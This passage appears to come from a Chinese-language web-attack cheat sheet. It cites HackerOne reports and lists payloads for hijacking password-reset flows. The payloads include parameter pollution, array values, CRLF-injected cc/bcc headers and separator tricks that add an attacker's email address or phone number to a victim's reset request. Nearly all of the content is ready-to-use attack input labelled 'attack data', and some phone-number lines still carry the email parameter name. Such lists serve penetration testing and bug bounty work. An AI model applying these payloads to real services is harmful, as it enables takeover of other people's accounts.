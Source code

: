  https://blog.csdn.net/vodkaDL/article/details/110673825
 https://hackerone.com/reports/226659
 https://hackerone.com/reports/167631

### 通过修改参数重置任意用户密码

```powershell
# 参数污染
# 正常数据
email=victim@mail.com

# 攻击数据
email=victim@mail.com&email=hacker@mail.com

# 数组类型的参数值
# 正常数据
{"email":"victim@mail.com"}

# 攻击数据
{"email":["victim@mail.com","hacker@mail.com"]}

# 换行符（carbon copy）
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# 分隔符
# 正常数据
email=victim@mail.com

# 攻击数据
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
email=victim@mail.com%09hacker@mail.com #注：%09为制表符 \t
```
#####思路转变，手机号码同样适用

```powershell
# 参数污染
# 正常数据
phone=15888888888

# 攻击数据
phone=15888888888&email=你的手机号码

# 数组类型的参数值
# 正常数据
{"email":"15888888888"}

# 攻击数据
{"email":["15888888888","你的手机号码"]}

# 换行符（carbon copy）
email=15888888888%0A%0D你的手机号码

# 分隔符
# 正常数据
email=15888888888

# 攻击数据
email=15888888888,你的手机号码
email=15888888888%20你的手机号码
email=15888888888|你的手机号码
email=15888888888%09你的手机号码 #注：%09为制表符 \t
```